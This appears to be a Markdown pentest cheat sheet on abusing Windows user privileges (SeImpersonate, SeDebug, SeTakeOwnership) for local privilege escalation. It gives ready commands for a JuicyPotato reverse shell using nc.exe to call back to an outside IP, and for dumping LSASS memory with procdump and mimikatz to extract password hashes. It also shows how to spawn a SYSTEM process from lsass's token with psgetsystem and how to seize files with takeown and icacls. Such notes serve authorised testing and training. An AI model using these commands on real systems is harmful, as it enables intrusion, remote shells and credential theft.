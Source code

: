 
# Exploiting Windows Privileges


[Cool POCs and plenty of good stuff](https://github.com/daem0nc0re/PrivFu/tree/main)

[Cool article with more info on user rights assignments](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment)

To show current user privileges, use the command `whoami /priv`. They can be edited via the local or domain group policy editor under  Computer Settings > Windows Settings > Security Settings > Local Policies > User Rights Assignments.

Often the privileges are present, but not enabled on an account. To remediate this, just use [this script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) which is explained in [this article](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/). 



## SeImpersonate and SeAssignPrimaryToken

This privilege can be exploited by "potato-style" privesc exploits, like [JuicyPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato).

Usage :
```bat
JuicyPotato.exe -l <COM SERVER LISTENING PORT> -p <PROGRAM TO LAUNCH> -a <ARGUMENTS>
```

Example : Use nc.exe to call back to a listener :

```bat
\Tools\JuicyPotato.exe -l 53375 -p \windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.133 8443 -e cmd.exe" -t *
```


[More info on token impersonation attacks in Windows](https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt)



## SeDebugPrivilege

SeDebugPrivilege allows a user to debug program. <br> We can use this to dump a process memory, allowing us to recover password hashes in LSASS for example.

To dump a process memory, first download ProcDump from SysInternals then use the following command : 
`procdump.exe -accepteula -ma <process name> <dump name>`
then use this dump in mimikatz to extract the hashes :
- First load the dump using:  `sekurlsa::minidump lsass.dmp`
- Then extract the hashes using `sekurlsa::logonPasswords`
<br>

We can also leverage SeDebugPrivileges to elevate our privileges to SYSTEM using the parent process technique. 
SeDebugPrivilege allows us to alter a process to inherit the tokens of a parent process, if we target a system process, we inherit a SYSTEM token.   
For example, using [psgetsystem](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) : <br>
`psgetsys.ps1;[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`

You can use `tasklist` to get a PID or I suggest using Get-Process with a well known System process like so :
```ps1
.\psgetsys.ps1;[MyProcess]::CreateProcessFromParent((Get-Process "lsass").Id, "C:\windows\system32\cmd.exe","")
```

## SeTakeOwnershipPrivilege

SeTakeOwnershipPrivilege grants the ability to take ownership of any [securable object](https://learn.microsoft.com/en-us/windows/win32/secauthz/securable-objects) like processes, files, registry keys, AD objects and such.

The [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) command allows us to take ownership of a file like this :
```bat
takeown /f "\path\to\File" 

# To take ownership of a directory (and all subdirs): 
takeown /f "\path\to\directory" \r \d y
```
It is possible that we are Owner of the file but still cannot access it, in this case, we can change the ACLs of the file to grant us full permissions over it like so :
```bat
icacls \path\to\file /grant username:F
``` 

